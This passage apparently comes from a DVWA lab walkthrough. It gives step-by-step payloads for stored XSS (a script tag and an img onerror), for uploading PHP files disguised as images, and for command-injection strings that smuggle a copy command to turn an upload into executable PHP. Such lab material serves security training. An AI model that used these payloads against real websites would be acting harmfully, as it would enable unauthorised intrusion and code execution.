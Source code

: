 * Ctrl + Shift + i
* Find the input tag of the `name` field in the console,
* Note, that it has a maxlength value set to 10, increase it to 50.
* Attack the `name` field.

**Attack :** `<SCRIPT>alert("hacked")</SCRIPT>`
## High
It is the same case as medium, but this time, there is too much focus on the script tag, so try img tags.
**Attack :** `<img src=x onerror=alert("hacked")>` in Name

# File Upload
## Low
* Create the following php file
* Upload it
```php
<?php
echo getenv("PATH")
?>
```
* Access the file.

## Medium
* Create the php file
* Save it as .png file
* upload it
* go to command injection
* ``127.0.0.1 & copy ..\..\hackable\uploads\uploadmed.png ..\..\hackable\uploads\uploadmed.php``
* now go back to uploads and access the file.

## High
* The php file looks like
```php
GIF98
<?php
echo getenv('PATH')
?>
```
* Save it as .jpeg file
* Upload it
* go to command injection
* ``127.0.0.1|copy ..\..\hackable\uploads\uploadhigh.jpeg ..\..\hackable\uploads\uploadhigh.php``
* now go back to uploads and access the file.

# SQL Injection

